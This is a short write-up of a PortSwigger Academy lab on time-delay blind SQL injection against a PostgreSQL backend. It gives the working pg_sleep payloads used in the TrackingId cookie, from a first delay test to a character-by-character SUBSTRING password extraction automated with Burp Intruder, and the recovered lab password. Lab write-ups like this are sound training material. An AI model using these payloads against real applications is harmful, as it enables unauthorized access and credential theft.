

# Write-up: Blind SQL injection with time delays and information retrieval @ PortSwigger Academy

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval>  
Difficulty: PRACTITIONER

## Exploitation

I started by injecting `' || pg_sleep(10)--` as a simple performance test, and it worked by causing a 10 second delay. Next, I drafted a conditional payload that would only cause a delay if the condition was true:

`TrackingId=uztFXT97TincbUOe' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--`

Next, I tried a slight variation to check the existence of the `users` table and `administrator` username:

`TrackingId=uztFXT97TincbUOe' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--`

This succeeded, so it was finally time to hone in on the password. After figuring out that the password was 20 characters long, I used Burp Intruder to automate the process of testing the values a-z and 0-9 in each password index, a delay signifying a correct value placement. I used variations of the following payload:

`TrackingId=uztFXT97TincbUOe' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password, 1, 1) = 'a') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users)--`

I changed the delay to 3 seconds for efficiency reasons, I was still able to clearly see which values caused delays. Eventually, I  all characters of the password and ended up with `p2wghw0p8et4xxvn4uqz`; I was then able to log in to the administrator account:

